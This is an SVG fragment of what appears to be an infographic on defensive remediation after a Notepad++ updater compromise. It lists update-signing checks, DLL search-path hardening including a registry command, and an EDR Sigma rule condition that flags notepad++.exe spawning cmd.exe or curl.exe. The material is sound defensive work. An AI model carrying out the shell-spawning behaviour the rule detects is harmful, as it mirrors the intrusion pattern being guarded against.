  <g transform="translate(40, 510)" filter="url(#shadow)">
    <rect width="1120" height="280" rx="10" fill="url(#cardGrad)" stroke="#10b981" stroke-width="1.5" />
    <rect x="0" y="0" width="1120" height="40" rx="10" fill="#047857" fill-opacity="0.3" />
    <text x="24" y="25" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="14" font-weight="700" fill="#a7f3d0">Defensive Remediation: Notepad++ Updater Overhaul, Authenticode Validation &amp; EDR Detection</text>
    <rect x="24" y="55" width="330" height="205" rx="8" fill="#1e293b" stroke="#334155" stroke-width="1" />
    <text x="40" y="78" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="12" font-weight="700" fill="#38bdf8">1. Notepad++ v8.6.9+ / v8.8.8 Fix</text>
    <text x="40" y="100" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10.5" fill="#cbd5e1">• Mandatory HTTPS for all update endpoints</text>
    <text x="40" y="120" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10.5" fill="#cbd5e1">• Domain pinning: notepad-plus-plus.org strictly</text>
    <text x="40" y="140" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10.5" fill="#cbd5e1">• WinVerifyTrust Authenticode signature check</text>
    <text x="40" y="160" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10.5" fill="#cbd5e1">• SHA-256 hash matching against signed manifest</text>
    <rect x="40" y="185" width="298" height="55" rx="4" fill="#0f172a" stroke="#475569" stroke-width="1" />
    <text x="50" y="205" font-family="monospace" font-size="10" fill="#86efac">Enforce v8.8.8+ globally across fleet</text>
    <text x="50" y="223" font-family="monospace" font-size="10" fill="#38bdf8">Verify WinGup certificate pinning</text>
    <rect x="374" y="55" width="350" height="205" rx="8" fill="#1e293b" stroke="#334155" stroke-width="1" />
    <text x="390" y="78" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="12" font-weight="700" fill="#a78bfa">2. Windows OS DLL Hardening</text>
    <text x="390" y="100" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10.5" fill="#cbd5e1">• Enable safe search mode: SetSearchPathMode()</text>
    <text x="390" y="120" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10.5" fill="#cbd5e1">• Mandate LoadLibraryEx with SYSTEM32 search</text>
    <text x="390" y="140" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10.5" fill="#cbd5e1">• Enable AppLocker / WDAC DLL validation</text>
    <text x="390" y="160" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10.5" fill="#cbd5e1">• Restrict user write permissions to Program Files</text>
    <rect x="390" y="185" width="318" height="55" rx="4" fill="#0f172a" stroke="#475569" stroke-width="1" />
    <text x="400" y="205" font-family="monospace" font-size="9.5" fill="#a78bfa">reg add "HKLM\System\...\Session Manager"</text>
    <text x="400" y="223" font-family="monospace" font-size="9.5" fill="#a78bfa">  /v CWDIllegalInDllSearch /d 2 /f</text>
    <rect x="744" y="55" width="350" height="205" rx="8" fill="#1e293b" stroke="#334155" stroke-width="1" />
    <text x="760" y="78" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="12" font-weight="700" fill="#4ade80">3. EDR / Sysmon Behavioral Alerts</text>
    <text x="760" y="100" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10.5" fill="#cbd5e1">• Flag notepad++.exe or gup.exe spawning shells</text>
    <text x="760" y="120" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10.5" fill="#cbd5e1">• Alert on child processes: cmd, powershell, curl</text>
    <text x="760" y="140" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="10.5" fill="#cbd5e1">• Monitor unsigned DLL loads in Notepad++ PID</text>
    <rect x="760" y="165" width="318" height="75" rx="4" fill="#064e3b" stroke="#10b981" stroke-width="1" />
    <text x="770" y="185" font-family="monospace" font-size="10" fill="#86efac">Sigma Rule Condition:</text>
    <text x="770" y="203" font-family="monospace" font-size="10" fill="#86efac">ParentImage endswith '\notepad++.exe'</text>
    <text x="770" y="221" font-family="monospace" font-size="10" fill="#86efac">and Image in ['cmd.exe', 'curl.exe']</text>
  </g>
+   <text x="600" y="818" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif" font-size="11" font-weight="600" fill="#64748b" text-anchor="middle">Architecture &amp; Design by Srinivasan Ragothaman (@rsrini7)</text>
</svg>
